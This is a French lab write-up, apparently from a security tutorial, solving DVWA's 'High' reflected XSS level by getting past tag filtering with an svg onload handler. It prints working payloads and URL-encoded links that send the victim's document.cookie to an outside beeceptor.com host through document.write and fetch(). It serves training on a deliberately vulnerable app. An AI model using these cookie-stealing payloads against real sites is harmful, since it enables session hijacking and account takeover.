





# Niveau "High"

Aucun changement dans la manière que fonctionne le challenge pour ce niveau "High" :



Je test l'habituelle `alert()` box :



Il semble qu'un filtrage soit effectué ici, mais les contournements simples ne fonctionnent pas (mélange de minuscule/majuscules sur les balises, doublement des balises etc). Dans ce cas, il faut tenter d'autres balises mais pouvant tout de même conduire à l'exécution de script.

Par exemple, ici j'utilise la base `<svg>`  :



J'adapte la payload utilisée plus tôt :

```markup
<svg onload="document.write('')">
```



```
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Csvg+onload%3D%22document.write%28%27%3Cimg+src%3D%5C%27https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%5C%27%2F%3E%27%29%22%3E#
```

Malheureusement cela ne fonctionne pas, un autre filtre doit être en place. De plus, la payload a un problème, elle écrit l'image dans une nouvelle page, ce qui n'est pas du tout transparent pour la victime (pour visualiser ce comportement, il est possible de tester la payload en niveau "Low").

Afin de contourner le filtre j'utilise la méthode la méthode `fetch()` au lieu de `document.write()` :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```



Soit L'URL suivante à fournir à la victime :

```
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Csvg+onload%3D%22fetch%28%27https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie%29%3B%22%3E#
```

Je récupère finalement son jeton :


